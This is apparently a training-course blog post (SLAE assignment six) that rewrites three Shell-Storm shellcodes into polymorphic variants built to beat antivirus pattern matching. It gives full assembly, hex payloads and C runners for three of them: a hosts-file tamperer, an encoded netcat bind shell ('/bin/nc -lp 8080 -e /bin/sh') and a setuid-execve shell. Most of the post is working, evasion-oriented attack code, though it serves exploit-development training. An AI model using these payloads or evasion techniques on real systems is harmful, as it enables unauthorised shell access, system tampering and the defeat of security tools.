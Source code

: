 ```yaml
---
title: SLAE Exercise 6
tags: SLAE
key: 20190620
comments: true
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Six:

1. Take up 3 shellcodes from Shell--Storm and create polymorphic versions of them to beat pattern matching
2. The polymorphic versions cannot be larger 150% of the existing shellcode
3. Bonus points for making it shorter in length than original

### Linux/x86 - Add map in /etc/hosts file - 77 bytes
http://shell-storm.org/shellcode/files/shellcode-893.php

After inspected the shellcode, I thought to myself, why don't I just use another jmp call pop to the address storing /etc/hosts to ebx? As such, I created this polymorphic version of shellcode which have the same length as the original one. Notice that I put the new _load_name: under _load_data: instead is because put the new function above cannot terminate the file name properly. Causing the systemcall not able to open the file. Another point to notice is that do not include any word that has the word "file" in it. It seems that the objdump bash code that help us to extract shellcode will trim away any code with this word in it. This actually cause my shellcode fail to execute when I convert it to the c program. So, lesson learnt, know what you tools really do is very important.

Below is the polymorphic version of my shellcode
```
global _start

section .text

_start:
	xor ecx, ecx
	mul ecx
	mov al, 0x5
	push ecx
	;push 0x7374736f	    ;/etc///hosts
	;push 0x682f2f2f
	;push 0x6374652f
	jmp short _load_name	;We will use another jmp call pop to replace it instead

_open:
	;mov ebx, esp
	pop ebx	
	mov cx, 0x401		    ;permmisions
	int 0x80		        ;syscall to open file

	xchg eax, ebx
	push 0x4
	pop eax
	jmp short _load_data	;jmp-call-pop technique to load the map

_write:
	pop ecx
	;push 20		;length of the string, dont forget to modify if changes the map
	;pop edx
	mov dl, 20		;edx remain 0x0 at this point
	int 0x80		;syscall to write in the file

	push 0x6
	pop eax
	int 0x80		;syscall to close the file

	push 0x1
	pop eax
	int 0x80		;syscall to exit

_load_data:
	call _write
	google db "127.1.1.1 google.com"

_load_name:			;Original named _load_file, which cause the objdump bash strip away the opcode
	call _open
	hosts db "/etc/hosts"
```

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex6-1.JPG"/>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\xb0\x05\x51\xeb\x35\x5b\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x0f\x59\xb2\x14\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xec\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d\xe8\xc6\xff\xff\xff\x2f\x65\x74\x63\x2f\x68\x6f\x73\x74\x73";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

The length of the shellcode is the same as original. After we execute it, a new entry was added to the hosts file.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex6-2.JPG"/>

### Linux/x86 - netcat bindshell port 8080 - 75 bytes
http://shell-storm.org/shellcode/files/shellcode-684.php

For this shellcode, I decrease every byte by one and increase them when the shellcode runs. This should avoid anti virus from trying look of the argument, /bin/nc -lp 8080 -e /bin/sh from passing to execve

```
global _start

section .text

_start:
	jmp short _netcat
_execve:
	pop esi
	;xor eax,eax
	xor ecx, ecx
	mul ecx
	mov cl, 26
	mov edi, esi
incbyte:
	mov dl, byte[edi]	;increase the value byte by byte
	inc edx
	mov byte[edi], dl
	inc edi
	loop incbyte
	mov [esi+0x7],al
	mov [esi+0xf],al
	mov [esi+0x19],al
	mov [esi+0x1a],esi
	lea ebx,[esi+0x8]
	mov [esi+0x1e],ebx
	lea ebx,[esi+0x10]
	mov [esi+0x22],ebx
	mov [esi+0x26],eax
	mov al,0xb
	mov ebx,esi
	lea ecx,[esi+0x1a]
	lea edx,[esi+0x26]
	int 0x80

_netcat:
	call _execve
	;execute db "/bin/nc#-lp8080#-e/bin/sh"
	execute db 0x2e,0x61,0x68,0x6d,0x2e,0x6d,0x62,0x22,0x2c,0x6b,0x6f,0x37,0x2f,0x37,0x2f,0x22,0x2c,0x64,0x2e,0x61,0x68,0x6d,0x2e,0x72,0x67,0x22
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x38\x5e\x31\xc9\xf7\xe1\xb1\x1a\x89\xf7\x8a\x17\x42\x88\x17\x47\xe2\xf8\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xc3\xff\xff\xff\x2e\x61\x68\x6d\x2e\x6d\x62\x22\x2c\x6b\x6f\x37\x2f\x37\x2f\x22\x2c\x64\x2e\x61\x68\x6d\x2e\x72\x67\x22";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

The shellcode is 89 bytes long, which is 18.6% larger than the original

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex6-3.JPG"/>

### Linux/x86 - setuid(); execve(); exit(); - 44 bytes
http://shell-storm.org/shellcode/files/shellcode-549.php

For the last shellcode, I decided to use the method that I demonstrated in assignment 2, using SHL to manipulate the value. Since SHL will set bits to 0 after the original bit got shifted to left, we can use this to replace xor. We also can separate the value being push to parts so that it will be hard to figure out the pattern.

```
global _start

section .text

_start:
	;xor eax,eax
	;xor ebx,ebx
	SHL ebx, 0x10		;shift all values to left, result in 00000000
	SHL ebx, 0x10		;Sadly SHL didn't accept 0x20 (32bits) so we have to seperate them
	;xor ecx,ecx
	SHL ecx, 0x10
	SHL ecx, 0x10		;shift all values to left, result in 00000000
	mul ebx
	mov al,0x17
	int 0x80
	xor eax,eax
	push eax

	;push dword 0x68732f6e	
	mov dx, 0x6873		;Instead of pushing the whole word, we push to by parts and use SHL to adjust
	SHL edx, 16
	mov dx, 0x2f6e
	push edx
	
	;push dword 0x69622f2f
	mov dx, 0x6962		;Instead of pushing the whole word, we push to by parts and use SHL to adjust
	SHL edx, 16
	mov dx, 0x2f2f
	push edx

	mov ebx,esp
	lea edx,[esp+0x8]
	push eax
	push ebx
	lea ecx,[esp]
	mov al,0xb
	int 0x80
	xor eax,eax
	mov al,0x1
	int 0x80
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xc1\xe3\x10\xc1\xe3\x10\xc1\xe1\x10\xc1\xe1\x10\xf7\xe3\xb0\x17\xcd\x80\x31\xc0\x50\x66\xba\x73\x68\xc1\xe2\x10\x66\xba\x6e\x2f\x52\x66\xba\x62\x69\xc1\xe2\x10\x66\xba\x2f\x2f\x52\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";
int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

The size of the shellcode is 66 bytes long, which is exactly 50% larger than the original one.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex6-4.JPG"/>